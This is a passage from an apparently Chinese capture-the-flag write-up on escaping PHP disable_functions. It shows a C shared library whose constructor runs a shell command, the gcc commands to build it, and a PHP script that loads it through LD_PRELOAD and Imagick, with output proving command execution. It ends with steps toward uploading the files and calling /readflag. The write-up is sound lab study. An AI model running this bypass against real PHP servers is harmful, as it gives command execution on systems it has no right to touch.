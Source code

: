 我们还是用之前的sky.c

```
#define _GNU_SOURCE
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/types.h&gt;

__attribute__ ((__constructor__)) void angel (void)`{`
    unsetenv("LD_PRELOAD");
    system("ls");
`}`
```

然后编译一下

```
gcc -c -fPIC sky.c -o sky
gcc --share sky -o sky.so
```

测试一下

```
&lt;?php
putenv("LD_PRELOAD=./sky.so");
$img = new Imagick('sky.wmv');
?&gt;
```

运行发现

```
root@sky:~# php sky.php
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys    test  tmp  usr    var  vmlinuz  vmlinuz.old
PHP Fatal error:  Uncaught ImagickException: unable to open image `/tmp/magick-25528VpF8npGTawCz.pam': No such file or directory @ error/blob.c/OpenBlob/2712 in /root/sky.php:3
Stack trace:
#0 /root/sky.php(3): Imagick-&gt;__construct('sky.wmv')
#1 `{`main`}`
  thrown in /root/sky.php on line 3
```

我们成功的进行了列目录



## getflag

那么现在思路很清晰：

1.把我们的sky.so和sky.wmv上传到题目的/tmp/sandbox中

2.利用backdoor运行sky.php

3.在tmp目录读取重定向的结果

首先我们按照题目意思，调用/readflag
